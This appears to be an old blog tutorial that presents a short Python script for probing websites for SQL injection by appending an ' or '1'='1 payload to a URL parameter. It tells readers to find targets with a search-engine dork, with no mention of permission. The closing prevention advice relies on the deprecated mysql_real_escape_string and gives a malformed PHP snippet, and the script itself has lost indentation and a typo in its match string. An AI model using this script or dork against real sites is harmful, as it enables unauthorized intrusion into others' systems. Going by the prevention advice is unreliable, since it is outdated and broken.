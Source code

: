 ```yaml
---
title: How checking website vulnerability sql injection with simple code using python
date: '2015-11-07T22:51:00.000+07:00'
author: Arief JR
tags: [SQL Injection, Security]
categories: [python]
---
```


[**Checking Vulnerability Sql Injection with Simple Code using Python**](https://arief-jr.blogspot.com/) - Will discuss how to check the SQL injection security hole in a website using a simple code with a python.  
It only uses the GET parameters on the website  


> **dependencies:**  
> - python 3.4 or latest  
> - Internet Connection  
> - Vulnerability a Website  
> - Computer with Linux or Windows (here using Linux)  


If you're not install python, you can download python in https://python.org/downloads  

**A Glimpse Of Python**  

Python is written in C, it is one of the easiest programming languages to hacking tools, it includes a lot of very useful libs.  

**Finding Vuln Website For Testing**  

To find a website for testing using simple sqli dorks, like {inurl:"index.php?cat_id="}.  

**This Simple Code Sqli To Check For Vulnerabilities**  
Before starting, create new file with format .py e.g: sqli.py  

After that, then copy this code to a file that has been created:  


![](https://2.bp.blogspot.com/-DpjyfWZUhdY/Vj4XaA2e2TI/AAAAAAAACV0/ig5pM_6IFdc/s1600/snapshot12.png)


>   
> import sys  
> import urllib  
> import urllib.request  
>   
> fullurl = input("Please specify the vulnerable url: ")  
>   
> resp = urllib.request.urlopen(fullurl + "=1\\' or \\'1\\' = \\'1\\'")  
> body = resp.read()  
> fullbody = body.decode('utf-8')  
>   
> if "You have an error in you SQL syntax" in fullbody:  
> print ("The website is classic SQL injection vulnerable!")  
> else:  
> print ("The website is not classic SQL injection vulnerable!")  


Save and running with command $python sqli.py  

**How to prevent simple SQL injection**  

Preventing SQLi ON MYSQL if very simple. Just use mysql_real_escape string for queries, as example:  


>   
> $query = sprintf("SELECT * FROM users where user='%s' AND password='%s',  
>   
> mysql_real_escape_string($username)  
>   
> mysql_real_escape_string($password)  
>   

**Thanks**
